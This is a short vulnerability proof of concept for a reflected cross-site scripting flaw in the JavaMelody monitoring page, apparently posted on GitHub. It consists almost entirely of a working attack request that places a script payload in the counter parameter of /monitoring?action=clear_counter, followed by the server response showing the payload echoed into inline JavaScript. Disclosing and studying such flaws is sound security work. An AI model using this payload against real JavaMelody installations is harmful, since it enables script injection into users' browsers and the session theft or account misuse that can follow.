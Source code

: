 # JavaMelody 1.60.0 vulnerability Cross-Site Scripting
# This vulnerability maybe affected version <= 1.72.0

* Request:
-----------------------------------------------------
GET /monitoring?action=clear_counter&counter=<script>alert(1)</script> HTTP/1.1
Host: victim
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close



* Response:
------------------------------------------------------
HTTP/1.0 200 OK
Date: Wed, 13 Jun 2018 09:52:54 GMT
Server:
X-Frame-Options: SAMEORIGIN
X-XSS-Protection: 1; mode=block
X-Content-Type-Options: nosniff
Cache-Control: no-cache
Pragma: no-cache
Expires: -1
Vary: Accept-Encoding
Content-Type: text/html;charset=UTF-8
Connection: close

...
...

<script type='text/javascript'>
alert("Statistics <script>alert(1)</script> cleared.");
if (location.href.indexOf('?') != -1) {
location.href = location.href.substring(0, location.href.indexOf('?')) + '#<script>alert(1)</script>';} else {
location.href = '#<script>alert(1)</script>';}
</script>

